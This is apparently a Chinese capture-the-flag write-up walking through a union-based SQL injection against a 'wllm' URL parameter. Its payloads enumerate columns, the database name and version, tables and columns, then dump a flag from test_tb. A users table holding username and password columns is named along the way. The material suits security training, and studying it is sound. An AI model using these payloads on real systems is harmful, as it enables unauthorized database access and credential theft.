










提示输入内容


查看源码




提示参数是wllm

尝试wllm=1

```
?wllm=1
```




尝试拼接1'

```
?wllm=1'
```



报错


测试回显数

```
?wllm=1' order by 4--+
```



```
?wllm=1' order by 3--+
```



即三个回显数


测试回显位

```
?wllm=-1' union select 1,2,3 --+
```



即第二第三位存在回显


查询当前数据库名及数据库版本信息

```
?wllm=-1' union select 1,database(),version() --+
```



数据库名test_db

版本信息MariaDB 10.2.29


查询表名

```
?wllm=-1' union select 1,2,group_concat(table_name) from information_schema.columns where table_schema="test_db"--+
```



得到表名：test_tb，users


查询users表中的字段名

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="test_db" and table_name="users"--+
```



username,password


查询test_tb表中的字段名

```
?wllm=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema="test_db" and table_name="test_tb"--+
```


id,flag


查询test_tb表中的字段信息

```
?wllm=-1' union select 1,2,group_concat(id,flag) from test_tb--+
```


